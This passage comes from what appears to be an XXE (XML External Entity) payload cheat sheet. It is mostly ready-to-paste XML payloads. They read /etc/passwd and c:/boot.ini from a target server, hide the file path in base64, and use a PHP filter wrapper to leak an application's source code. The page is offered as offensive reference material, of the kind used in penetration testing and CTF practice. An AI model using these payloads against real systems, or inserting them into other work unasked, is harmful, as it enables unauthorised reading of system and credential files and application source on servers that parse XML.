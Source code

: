 It might help to set the `Content-Type: application/xml` in the request when sending XML payload to the server.

### **Exploiting XXE to retrieve files** ###

#### **Classic XXE** ####

We try to display the content of the file `/etc/passwd`

```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

⚠️ `SYSTEM` and `PUBLIC` are almost synonym.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

#### **Classic XXE Base64 encoded** ####

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

#### **PHP Wrapper inside XXE** ####

```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```
